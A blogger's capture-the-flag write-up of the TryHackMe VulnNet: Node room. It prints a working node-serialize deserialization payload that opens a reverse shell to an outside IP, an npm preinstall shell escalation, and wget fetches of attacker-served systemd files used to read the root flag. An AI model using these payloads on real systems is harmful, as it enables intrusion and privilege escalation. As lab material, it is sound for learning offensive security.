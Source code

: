 Time for another CTF write up. I very much enjoyed this one, which I did in collaboration with a colleague during a company knowledge sharing session.

Let's take a look at the [VulnNet: Node](https://tryhackme.com/room/vulnnetnode) CTF on TryHackMe.

## VulnNet

The first step was enumeration with `nmap`, which revealed a web application running on port 8080. This web app, based on the info by nmap, runs Node.js and the Express framework.

Upon checking out the page, there is a login, which isn't connected to a backend and some more static content. we tried enumerating it with `gobuster`, but couldn't find anything interesting.

One thing that caught our eye though, was the cookie. There is a `session` cookie with a base64 encoded value. Decoding this revealed some interesting JSON.

We played around with the JSON, setting the `username` to `Admin` and setting several flags, such as `isLoggedIn: true` and such. However, the only interesting thing coming out of that, was that the username seemed to be reflected on the main page.

Then we thought "what happens if we break it?" and put in invalid JSON. Interestingly, an exception was thrown and the stacktrace was visible on the page. One thing that stood out to me was the use of [node-serialize](https://www.npmjs.com/package/node-serialize). I used to develop in Node.js and built a few Express sites as well, but I never heard of this library.

Turns out, checking out the project's [GitHub repo](https://github.com/luin/serialize) revealed a big security warning, with an example of how to do remote code execution during the deserialization.

Very nice! We took the example and edited to include a reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs), put into 1 line,  in the `username` property:

```javascript
{"username":"_$$ND_FUNC$$_function (){(function(){var net = require('net'),cp = require('child_process'),sh = cp.spawn('/bin/sh', []);var client = new net.Socket();client.connect(1234, '10.9.1.196', function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});})();}()"}
```

We base64 this and then we can set it as the cookie.

Opening a local netcat listener and refreshing the site with the new cookie, we got our reverse shell!

We're logged in as the `www` user and, unfortunately, don't see the `user.txt` flag yet. However, we can see there is another user called `serv-manage`.

After looking around a bit and running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) to find privesc options, we saw that we're allowed to run `npm` as the `serv-manage` user.

Checking out [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) revealed a possibility to exploit this, by creating a `package.json` file with a `preinstall` script, which opens a shell using `/bin/sh`.

So, we create a package.json with the following content:

```bash
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
```

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

The last step was to privilege escalate to root. Typing `sudo -l` revealed, that we're allowed to run several commands as root:

* `/bin/systemctl start vulnnet-auto.timer`
* `/bin/systemctl stop vulnnet-auto.timer`
* `/bin/systemctl daemon-reload`

Interesting - we can use this! Looking for the config files in `/etc/systemd/system/vulnnet-auto.timer` and `/etc/systemd/system/vulnnet-job.service` revealed the following two files:

```bash
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

and

```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

The idea was to simply change the timer to run a lot more often (like every 5 seconds) using `OnCalendar=*:*:0/5` and, at the same time, changing the `vulnnet-job.service` to, instead of `/bin/df` copy the `/root/root.txt` into our home folder and giving us permissions to read it.

So we created these two replacement files locally and served them via an HTTP server, so we could fetch and replace them inside the `/etc/systemd/system/` folder.

We can fetch them like this:

```bash
wget -O vulnnet-job.service http://YOUR_IP/vulnnet-job.service
wget -O vulnnet-auto.timer http://YOUR_IP/vulnnet-auto.timer
```

The changed files look like this:

```bash
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:*:0/5
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

and 

```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/cp /root/root.txt /home/serv-manage/root.txt && /bin/chown serv-manage:serv-manage /home/serv-manage/root.txt

[Install]
WantedBy=multi-user.target
```

After doing that, we simply called `daemon-reload`, followed by `stop` and `start` and we can read the flag in our home folder!

This step took us quite a bit of time, fiddling around with the systemd config files and finding out the order in which to call the `systemctl` commands, but in the end we were successful!

## Conclusion

What a fun CTF. I really liked the design of this one, as it featured somewhat realistic vulnerabilities and didn't go out of it's way to confuse or mislead the attacker.

Solving this was great fun and I'm looking forward to tackling the [new room by the author](https://tryhackme.com/room/vulnnetdotpy).

#### Resources

* [TryHackMe VulnNet: Node](https://tryhackme.com/room/vulnnetnode)
